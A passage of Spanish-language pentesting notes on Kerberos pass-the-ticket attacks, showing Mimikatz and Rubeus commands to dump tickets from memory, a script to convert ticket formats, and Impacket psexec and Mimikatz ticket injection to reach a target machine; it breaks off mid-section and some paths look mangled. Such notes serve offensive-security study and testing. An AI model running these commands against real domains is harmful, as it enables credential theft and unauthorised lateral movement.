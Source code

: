 <span style="color:red">¡No extrae tickets expirados!</span>

Con **Mimikatz.exe**:

```bash
sekurlsa::tickets /export
```

Con **Rubeus**:

```bash
.Rubeus dump
```

## Conviertiendo tickets entre Windows y Linux

Windows y Linux no guardan los tickets con el mismo formato: ccache (Linux) y kirbi (Windows)

Con **ticket_converter.py**:

```bash
python ticket_converter.py ticket.ccache ticket.kirbi

python ticket_converter.py ticket.kirbi ticket.ccache
```

## Acceder al sistema con el ticket


Desde Linux, utilizando psexec.py de Impacket:

```bash
export KRB5CCNAME=/root/impacket-examples

python psexec.py [domain name]/[user client]@[target machine] -k -no-pass
```

Si Impacket devolvía un error [-] SMB SessionError:STATUS_ACCESS_DENIED, esto se debe a que se usó un ticket sin la flag A (pre-autenticado), ya que el propietario no necesita autenticación para solicitar el ticket. Para comprobar si un ticket tiene el flag A activado:

```bash
klist -f -c [ticket]
```

Desde Windows, utilizando mimikatz.exe para inyectar el ticket sin ningún privilegio:

```bash
kerberos::ptt [0;28419fe]-2-1-40e00000-trex@krbtgt-[domain name].kirbi
```

(result: OK)

Después con psexec.py:

```bash
.PsExec.exe -accepteula \[target_machine] [command]
```

Con Rubeus para inyectar tickets:
